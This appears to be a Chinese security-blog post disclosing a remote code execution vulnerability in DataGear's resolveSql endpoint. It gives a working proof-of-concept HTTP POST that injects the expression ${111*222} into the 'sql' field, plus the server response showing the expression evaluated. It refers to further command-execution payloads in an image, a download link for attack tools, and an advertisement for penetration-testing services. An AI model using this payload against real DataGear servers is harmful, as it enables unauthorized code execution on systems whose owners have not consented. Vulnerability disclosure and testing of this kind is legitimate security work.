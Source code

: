 #  DataGear resolveSql 远程代码执行漏洞   
原创 黑熊先生  黑熊安全   2024-11-12 16:57  
  
亲爱的读者，我们诚挚地提醒您，黑熊安全公众号的技术文章仅供个人研究学习参考。任何因传播或利用本实验室提供的信息而造成的直接或间接后果及损失，均由使用者自行承担责任。黑熊安全团队及作者对此概不负责。如有侵权，请立即告知，我们将立即删除并致歉。感谢您的理解与支持！  
  
POC  
```
POST /dataSet/resolveSql HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 27

{"sql": "${111*222}"}
```  
  
运行该poc数据包会返回如下内容  
  
计算出111*222的结果  
```
HTTP/1.1 200 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: text/html;charset=UTF-8
Content-Length: 11
Keep-Alive: timeout=60
Connection: keep-alive

24642
```  
  
其他命令执行POC  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/kmmKLfv0wV9updpNdypvsWFu715tNHVo8lbvslwAbopXQofK4sIBviaGtqYIQcvWmJZHg3aXygolc4lzpVWicM5w/640?wx_fmt=png&from=appmsg "")  
  
已发布文章所有下载工具连接：https://pan.quark.cn/s/0c1cbe67aec4  
  
承接SRC众测、网站众测、红蓝攻防、代码审计、培训、公众号广告等业务。微信：xxbearyyds  
  
  
